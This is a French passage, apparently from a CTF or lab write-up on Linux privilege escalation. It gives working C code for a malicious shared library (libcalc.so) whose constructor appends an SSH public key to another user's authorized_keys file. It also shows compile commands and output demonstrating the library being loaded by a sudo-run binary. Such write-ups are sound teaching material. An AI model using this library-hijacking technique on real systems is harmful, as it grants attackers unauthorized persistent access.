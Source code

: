Le dossier .config ainsi que la librairie n'existent pas, il faut donc créer cette dernière avec un code qui nous ouvrira l'accès et faire exécuter tout ça via sudo :  

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#include <sys/types.h>
#include <sys/stat.h>

#define PUBLIC_KEY "ssh-rsa <ma clé publique SSH>"

void _init(void) {
  FILE * fd;

  printf("In _init()\n");
  mkdir("/home/user2/.ssh", S_IRWXU);
  fd = fopen("/home/user2/.ssh/authorized_keys", "a");
  fputs(PUBLIC_KEY, fd);
  fclose(fd);
  chmod("/home/user2/.ssh/authorized_keys", S_IRUSR|S_IWUSR);
}

void __attribute__((constructor)) lib_init(void) {
  FILE * fd;

  printf("In constructor()\n");
  mkdir("/home/user2/.ssh", S_IRWXU);
  fd = fopen("/home/user2/.ssh/authorized_keys", "a");
  fputs(PUBLIC_KEY, fd);
  fclose(fd);
  chmod("/home/user2/.ssh/authorized_keys", S_IRUSR|S_IWUSR);
}
```

Compilation :  

```bash
gcc -fPIC -c libcalc.c
ld -shared -o libcalc.so libcalc.o
mkdir .config
mv libcalc.so .config/
```

Il faut aussi penser à rendre exécutable les dossiers /home/user, .config et donner des accès suffisant sur *libcalc.so* pour que *user2* puisse y accéder.  

On exécute calc et notre librairie est bien chargée :  

```plain
[user@localhost ~]$ sudo -u user2 /bin/calc
Calculating something, please wait...
In _init()
In constructor()
[=====================================================================>] 99 %
Done.
```
